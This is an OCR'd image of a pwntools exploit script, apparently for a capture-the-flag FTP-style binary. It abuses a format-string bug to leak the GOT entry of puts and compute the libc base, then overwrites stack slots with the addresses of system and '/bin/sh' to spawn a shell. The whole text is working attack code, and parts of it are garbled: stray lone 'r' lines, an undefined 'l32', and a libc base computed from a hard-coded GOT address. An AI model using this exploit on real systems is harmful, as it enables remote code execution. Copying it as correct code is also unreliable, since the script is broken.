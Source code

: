 ```bash
context.terminal = ['gnome-terminal','-x','sh','-c']

r
sla(":",'rxraclhm')
pause()
ru("ftp>")
puts=elf.got['puts']
puts_libc=libc.symbols['puts']
def name_content(x,y):
    p.sendline('put')
    r
    p.sendline(x)
    r
    p.sendline(y)
    r
    p.sendline('get')
    r
    p.sendline(x)
    r
name_content("puts",b'%8$s'+p32(elf.got['puts']))
r
puts_addr=l32
#0x804a028
leak('puts',puts)
pause()

libcbase=0x804a028-puts_libc

leak('libcbase',libcbase)

system_addr=libcbase+libc.symbols['system']
binsh_addr=libcbase+next(libc.search(b'/bin/sh\00'))

name_content("ebp",b'a %70$d') #%70$d a 0x7f4fd52ae5e0 0x7f9e30b055e0


tmp = p.recv()
#print(tmp)
ebp = int(tmp.split(b'a ')[1].rstrip(b'ftp>'))
print(ebp)




esp = (ebp & 0x0FFFFFFF0) - 0x40


payload = fmtstr_payload(7, {esp+4: binsh_addr})
name_content('binsh', payload)
r

payload = fmtstr_payload(7, {esp-4: system_addr})
name_content('system', payload)
r

p.interactive()
```
